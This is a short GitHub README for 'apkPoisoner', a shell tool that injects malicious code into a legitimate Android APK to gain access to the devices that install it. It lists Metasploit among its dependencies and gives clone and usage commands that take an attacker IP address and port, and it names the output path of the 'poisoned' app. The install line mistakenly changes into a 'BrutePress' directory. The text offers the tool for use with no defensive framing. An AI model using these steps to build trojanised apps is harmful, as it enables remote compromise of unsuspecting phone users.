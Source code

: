# apkPoisoner
Tool created to inject malicious code inside a legitimate apk in order to gain access to the infected device.

# DEPENDENCIES
 - java
 - metasploit-framework
 - sponge
 - wget

# INSTALLATION

```bash
git clone https://github.com/Invertebr4do/apkPoisoner.git
cd BrutePress && chmod +x apkPoisoner.sh
```

# USAGE

```bash
./apkPoisoner.sh -i [IP_ADDRESS] -p [LOCAL_PORT] -a /PATH/TO/APK.apk 
```
> The malicious apk file is saved on **[APKPOISONER_DIRECTORY]/out/POISONED_[APP_NAME].apk**

![](https://github.com/Invertebr4do/apkPoisoner/blob/main/video/apkpoisoner_poc.gif)
